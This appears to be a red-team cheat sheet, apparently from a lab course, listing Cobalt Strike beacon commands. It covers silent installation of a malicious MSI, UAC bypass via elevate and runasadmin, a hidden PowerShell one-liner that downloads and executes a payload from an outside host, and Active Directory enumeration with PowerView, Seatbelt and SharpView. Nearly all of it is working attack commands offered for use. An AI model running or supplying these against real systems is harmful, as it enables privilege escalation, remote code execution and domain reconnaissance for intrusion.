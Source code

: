 ###### <font style="color:#00b3ff">Install the malicious .msi</font> 
```
beacon> run msiexec /i BeaconInstaller.msi /q /n
```

###### <font style="color:#00b3ff">Check for UAC bypasses</font> 
```
beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Debug\Seatbelt.exe uac
```

###### <font style="color:#00b3ff">Bypass UAC with cobaltstrike (2 methods: elevate and runasadmin)</font> 
```
-> beacon> elevate uac-token-duplication tcp-4444-local
-> beacon> elevate svc-exe tcp-4444-local

-> beacon> runasadmin uac-cmstplua powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://10.10.5.120:80/b'))"
```

###### <font style="color:#00b3ff">List token privileges</font> 
```
beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Debug\Seatbelt.exe TokenPrivileges
```

###### <font style="color:#00b3ff">Use PowerView</font> 
```
-> beacon> powershell-import C:\Tools\PowerSploit\Recon\PowerView.ps1
-> beacon> powershell Get-Domain  (specify -Domain if needed)
-> beacon> powershell Get-DomainController | select Forest, Name, OSVersion | fl
-> beacon> powershell Get-ForestDomain   (specify -Forest if needed)
-> beacon> powershell Get-DomainPolicyData | select -ExpandProperty SystemAccess
-> beacon> powershell Get-DomainUser -Identity nlamb -Properties DisplayName, MemberOf | fl
-> beacon> powershell Get-DomainComputer -Properties DnsHostName | sort -Property DnsHostName
-> beacon> powershell Get-DomainOU -Properties Name | sort -Property Name
-> beacon> powershell Get-DomainGroup | where Name -like "*Admins*" | select SamAccountName
-> beacon> powershell Get-DomainGroupMember -Identity "Domain Admins" | select MemberDistinguishedName

-> beacon> powershell Get-DomainGPO -Properties DisplayName | sort -Property DisplayName
-> beacon> powershell Get-DomainGPO -ComputerIdentity wkstn-1 -Properties DisplayName | sort -Property DisplayName
-> beacon> powershell Get-DomainGPOLocalGroup | select GPODisplayName, GroupName
-> beacon> powershell Get-DomainGPOUserLocalGroupMapping -LocalGroup Administrators | select ObjectName, GPODisplayName, ContainerName, ComputerName
-> beacon> powershell Find-DomainUserLocation | select UserName, SessionFromName
-> beacon> powershell Get-NetSession -ComputerName dc-2 | select CName, UserName
-> beacon> powershell Get-DomainTrust
```

###### <font style="color:#00b3ff">Get domain info with SharpView</font> 
```
beacon> execute-assembly C:\Tools\SharpView\SharpView\bin\Debug\SharpView.exe Get-Domain
```
